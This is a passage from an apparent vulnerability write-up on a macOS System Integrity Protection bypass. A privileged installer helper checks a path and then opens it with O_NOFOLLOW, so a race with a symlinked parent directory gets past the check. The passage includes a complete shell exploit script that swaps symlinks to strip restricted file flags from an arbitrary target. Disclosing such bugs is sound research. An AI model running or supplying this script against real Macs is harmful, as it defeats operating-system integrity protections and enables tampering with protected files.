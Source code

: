 ### The issue

So it checks whether the resolved destination path is SIP fully protected:

<img src="../res/2025-1-31-Endless-Exploits/image-20241124162641933.png" alt="image-20241124162641933" style="zoom:50%;" />

But the resolved destination path is opened with the flag “**O_NOFOLLOW**”, rather than the flag “**O_NOFOLLOW_ANY**”. So I can’t replace the resolved destination path with a symlink directly. But I can replace the parent path component with a symlink. Before calling the `open` API, create a symlink to point to an unrestricted location. After passing the check at line 291, let the symlink point to a restricted location to clear its restricted file flags.

### The exploit 

The exploit script is as follows:

```
#!/bin/sh
# Usage: exploit.sh /path/to/target (clear the target's file flag: "SF_RESTRICTED", "SF_SF_NOUNLINK")
TARGET_DIR=`dirname "$1"`
TARGET_NAME=`basename "$1"`

echo 'target dirname:' $TARGET_DIR ', target basename:' $TARGET_NAME
mkdir "/tmp/$TARGET_NAME"
ln -f -h -s /tmp /tmp/lnk
ln -f -h -s "/tmp/lnk/$TARGET_NAME" /Library/Application\ Support/ResearchSoft

echo 'waiting for the installation...'
# waiting for the shove process opening the untrusted /tmp/$TARGET_NAME
while true ; do
	if lsof -c shove | grep "/tmp/$TARGET_NAME" 
	then
		break
	fi
done

echo 'replacing the symlink...'
ln -f -h -s "$TARGET_DIR" /tmp/lnk
echo 'all done.'
```
